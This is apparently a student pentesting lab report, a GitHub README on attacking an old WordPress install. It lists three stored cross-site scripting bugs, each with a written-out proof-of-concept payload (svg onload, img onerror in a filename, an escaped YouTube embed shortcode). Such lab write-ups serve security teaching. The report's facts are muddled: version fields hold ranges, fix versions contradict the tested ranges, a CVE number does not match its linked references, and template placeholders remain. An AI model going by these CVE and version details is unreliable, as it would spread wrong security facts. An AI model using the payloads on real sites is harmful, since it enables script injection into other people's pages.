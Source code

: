 # Web-Security-Weeks-7-8-Project-WordPress-vs.-Kali
Weeks 7 &amp; 8 Project: WordPress vs. Kali

# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1.3.7-4.4 Authenticated Cross-Site Scripting (XSS) CVE-2016-1564 
  - [ 1] Summary: 
    - Vulnerability types: 3.7-4.4	
    - Tested in version: 4.2
    - Fixed in version: 4.26
  - [1 ] GIF Walkthrough: ![reply](https://user-images.githubusercontent.com/55426354/79058665-d1ece000-7c3e-11ea-992d-961c92d0f2e7.gif)
  - [ 1] Steps to recreate: Post the following XSS code into a comment or post than do->
	 <span>[http://codepath.org//<svg onload=alert('got_you')]</span>
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename CVE-2016-7168 
    - Vulnerability types:
    - Tested in version: 2.5-4.6
    - Fixed in version: 4.2
  - [ ] GIF Walkthrough: ![picture](https://user-images.githubusercontent.com/55426354/79058836-d1eddf80-7c40-11ea-972c-f45bbde089b9.gif)
  - [ ] Steps to recreate:  
  -find an image and upload.
  - Change the .jpg with the following script hope<img src= picture onerror =alert("picture_got_u")>.jpg
  - Create new media in library and upload the image.
  - View attachment page to view the image post.

  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1.4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds CVE-2015-6535 
    - Vulnerability types: 4.0-4.7.2
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: ![video](https://user-images.githubusercontent.com/55426354/79059136-b2f14c80-7c44-11ea-92db-90ec9597cbcb.gif)
  - [ ] Steps to recreate: Create a new post and embed a link

Insert the malicious YouTube embed shortcode.
[embed src='https://www.youtube.com/embed/dQw4w9WgXcQ\x3csvg onload=alert("exploit!")\x3e'][/embed]
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)	
   - [Link 2] https://wpvulndb.com/vulnerabilities/8768
    - [Link 3]https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
   - [Link 4] https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
   - [Link 5] https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
    - [Link 6]https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.